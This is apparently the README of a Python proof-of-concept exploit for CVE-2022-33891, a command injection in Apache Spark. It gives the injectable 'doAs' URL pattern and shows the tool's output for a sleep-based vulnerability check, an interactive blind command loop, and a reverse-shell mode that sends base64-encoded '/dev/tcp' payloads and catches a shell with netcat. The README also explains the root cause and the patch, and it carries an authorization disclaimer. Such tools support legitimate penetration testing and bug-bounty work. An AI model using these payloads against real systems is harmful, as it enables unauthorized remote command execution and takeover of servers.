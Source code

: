 # CVE-2022-33891
Apache Spark Shell Command Injection Vulnerability

A Python POC for exploiting the Apache Spark Shell Command Injection vulnerability. I saw some other POCs out there but they looked mega sus. This one is clean and simple.

I did not discover this exploit/vulnerability. I just wanted to make a testing tool for the ethical hacking community ^.^

Script by HuskyHacks, optimized for Arch Linux/threat hunting/bug bounty by CyberQueenMeg

CVE originally discovered by  Kostya Kortchinsky from Databricks.

## Affected Versions
Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

## Vulnerable component
```
http://localhost:8080/?doAs=`[command injection here]`
```
Example
```
http://localhost:8080/?doAs=`echo%20%22c2xlZXAgMTAK%22%20|%20base64%20-d%20|%20bash`
```
... sleeps for 10 seconds

## Usage
```
usage: poc.py [-h] -u URL -p PORT [--revshell] [-lh LISTENINGHOST] [-lp LISTENINGPORT] [--check] [--verbose] --header HEADER

CVE-2022-33891 Python POC Exploit Script

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to exploit.
  -p PORT, --port PORT  Exploit target's port.
  --revshell            Reverse Shell option.
  -lh LISTENINGHOST, --listeninghost LISTENINGHOST
                        Your listening host IP address.
  -lp LISTENINGPORT, --listeningport LISTENINGPORT
                        Your listening host port.
  --check               Checks if the target is exploitable with a sleep test
  --verbose             Verbose mode
  --header HEADER       Custom header

```

## Examples

Check to see if the target is vulnerable:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --check --verbose
[*] Attempting to connect to site...
[*] URL request: http://localhost:8080/?doAs='testing'
[*] Response status code: 403
[!] Performing sleep test of 10 seconds...
[*] T1: 2022-07-22 10:47:48.406996
[*] Command is: sleep 10
[*] Base64 command is: c2xlZXAgMTA=
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgMTA= | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[*] T2: 2022-07-22 10:47:58.425108
[*] Delta T: 10
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Issue commands in a command prompt loop:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --verbose
[*] "Interactive" mode!
[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.
[cve-2022-33891> sleep 5
[*] Command is: sleep 5
[*] Base64 command is: c2xlZXAgNQ==
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgNQ== | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[cve-2022-33891> 
```

Execute a reverse shell:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --revshell -lh 10.10.1.237 -lp 9001 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 9001
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/10.10.1.237/9001 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx | base64 -d | bash`
[*] Sending exploit...

...[in the other terminal]...

husky@dev-kde:~/Desktop/cve-2022-33891$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 172.19.0.2 52136
sh: 0: can't access tty; job control turned off
$ whoami
spark
$ echo "hackerman"
hackerman
$ 
```

## More Info
The command injection occurs because Spark checks the group membership of the user passed in the `?doAs` parameter by using a raw Linux command. Bash interpolation runs the command, sends the output to the `id` field, and attempts to look up the resulting user.

Passing in `which python` as the value of `?doAs=` user produces this result in the traceback:
```
...
http://localhost:8080/?doAs=`which%20python`
...

spark_1  | 22/07/22 15:15:57 INFO Utils: id: '/opt/bitnami/python/bin/python': no such user
spark_1  | 22/07/22 15:15:57 ERROR Utils: Process List(bash, -c, id -Gn `which python`) exited with code 1: 
spark_1  | 22/07/22 15:15:57 ERROR Utils: Error getting groups for user=`which python`
```
Here, Java has decided it would be best to pass in the `id` command into `bash -c` to check the group membership for a specified user. Problem is, that also allows command injection. Bash interpolation has evaluated the given command and printed the results on line 1 of this output and tries to look up the user by the stdout of the command.

There's no user named `/opt/bitnami/python/bin/python` but that sure as hell means the command was passed to Bash and executed.

Patched versions parametrize this call to have a full path to the `/bin/id` command instead of to `bash -c id`.

It's worth noting that there is nothing reflected back on the page during command execution, so this is blind OS injection. Your commands run, but there will be no indication if they worked or not or even if the program you're running is on the target. For example, the container that is spun up with the `docker-compose.yml` file in this repo does not have ping, so checking for command injection via a pingback will not work. But you won't know that's the case so you'll be left wondering if it worked or not.

The sleep test is a safe bet ^.^

## OPSEC

I spent precisely zero cycles making this OPSEC safe. Red teamers, that's on you.

## Disclaimer
This POC has no passive enumeration capability. The exploit is a blind command injection. If you use this script against a target, you are sending packets to it. Even if you use the `--check` parameter and the target is vulnerable, you are actively exploit it to prove that it's vulnerable.

Don't use this on production systems that are sensitive to testing. Do not use this against targets if you do not have authorization to do so. I'm not even close to liable for how you choose to use this.

Peep the license.

## References
- https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/
- https://nvd.nist.gov/vuln/detail/CVE-2022-33891
- https://spark.apache.org/docs/2.1.0/configuration.html
- https://github.com/W01fh4cker/cve-2022-33891 (I do not recommend using this POC)

